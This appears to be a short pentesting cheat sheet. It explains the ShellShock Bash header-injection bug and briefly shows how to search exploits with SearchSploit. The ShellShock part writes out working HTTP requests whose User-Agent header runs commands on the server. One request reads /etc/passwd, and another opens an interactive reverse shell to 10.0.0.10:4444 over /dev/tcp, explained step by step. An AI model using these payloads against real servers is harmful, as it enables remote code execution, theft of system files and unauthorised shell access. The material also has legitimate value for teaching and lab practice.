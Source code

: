 ### ShellShock

Bash does not sanitize headers before loading them as environment variables. This means it loads whatever value is sent in the header. For example, the request below results in `HTTP_USER_AGENT` being set to `() { :;};`. This is cryptic, but in vulnerable versions of Bash, this creates a function that does nothing.

```bash
GET /index.html HTTP/1.1
Host: example.com
User-Agent: () { :;};
Connection: keep-alive
```

Therefore, if you update the request above to the below, the server will run `echo "haxxed"`.

  ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; echo "haxxed"
  Connection: keep-alive
  ```
This allows you to execute arbitrary code on the server, including commands that open TCP connections back to your machine.

  ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; /bin/bash -c "cat /etc/passwd"
  Connection: keep-alive
  ```
#### ShellShock Payload to Open a Shell Breakdown
```bash
# Here is a Shellshock Payload Example
User-Agent: () { :;};echo -e "\r\n$(/bin/bash -i >& /dev/tcp/10.0.0.10/4444 0>&1)"`.
```
  - `User-Agent: () { :;};` exploits Shellshock by creating a function. The code after gets executed by the shell.

  - `echo -e "\r\n$(/bin/bash -i >& /dev/tcp/10.0.0.10/4444 0>&1)"`:

  - `/bin/bash -i >& /dev/tcp/10.0.0.10/444` means "Run a new Bash shell in interactive mode. Send std error and standard output to `10.0.0.10:4444` through a TCP connection.

  - `0>&1` means "Read standard input (`0`) to this new shell through the TCP connection."


### SearchSploit

SearchSploit allows you to search all of the exploits that you have in Kali Linux and even view their source code.

#### Search for exploits

```bash
# Search for apache exploits and view the first 10 findings.
searchsploit apache | head
```
